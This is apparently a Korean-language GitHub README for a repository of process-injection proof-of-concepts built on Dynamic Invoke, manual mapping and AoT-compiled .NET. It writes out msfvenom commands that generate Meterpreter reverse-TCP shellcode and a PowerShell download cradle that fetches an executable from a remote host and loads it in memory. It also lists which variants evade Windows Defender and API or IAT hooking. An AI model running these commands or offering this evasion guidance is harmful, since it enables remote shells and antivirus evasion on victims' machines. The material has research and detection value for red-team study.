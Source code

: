 ﻿# dinvokepoc 

[관련 블로그 글 - DInvoke 개념, PoC, 대응방안](https://blog.sunggwanchoi.com/dinvoke-concept-poc-detection-kor/)

이 리포는 Dynamic Invoke와 관련된 PoC를 가지고 있습니다. 
모든 PoC는 다음 함수 - OpenProcess,VirtualAllocEx, WriteProcessMemory, VirtualProtectEx, CreateRemoteThread - 를 이용한 기본적인 프로세스 인젝션입니다. 

PoC에 들어가는 페이로드는 모두 메타스플로잇의 Meterpreter를 사용했습니다. 
특정 PoC에는 페이로드 xor 암호화를 했습니다. 

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.48.111 lport=443 -f c`

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.48.111 lport=443 -f csharp`

다음은 4가지 PoC들에 관련된 정보입니다. 

## dinvokeaot

dinvokeaot 프로젝트는 특별한 AoT 컴파일을 사용하기 때문에 다음과 같이 컴파일 합니다. 
```
1. 파워쉘 실행 (Visual Studio의 Developer powershell 사용 불가!!) 
2. cd <설치경로>\dinvoke\dinvokeaot
3. dotnet publish -r win-x64 -c release 
4. 다음의 경로 확인 <설치경로>\dinvokepoc\dinvokeaot\bin\release\net5.0\win-x64\publish\dinvokeaot.exe 
```

.NET 5.0 기반, Ahead of Time Compilation, Classic DInvoke + Native API (ntdll.dll) 사용. 

IAT 후킹 우회, API 후킹 우회 불가 

IL --> Native PE file 이라 AV/EDR 우회 시 유용 

Windows Defender 우회 

## dinvokemm
.NET 4.0 Framework 기반, Manual Mapping + kernel32.dll 사용. 

IAT 후킹, API 후킹 모두 우회 

인-메모리 실행 가능 

Windows Defender 우회


파워쉘 인-메모리 실행 예시 
```
$a = (New-Object net.webclient).DownloadData("http://192.168.48.160:9999/dinvokemm.exe")
[System.Reflection.Assembly]::Load($a)
[dinvokemm.dinvokemm]::Main("")
```

## cppconsole
C++ 를 이용한 기본적인 PoC 

Windows Defender 우회 불가 

## pinvoke 
.NET 4.0 Framework 기반, pinvoke 사용 

IAT 후킹 우회 불가, API 후킹 우회 불가 

Windows Defender 우회 불가 
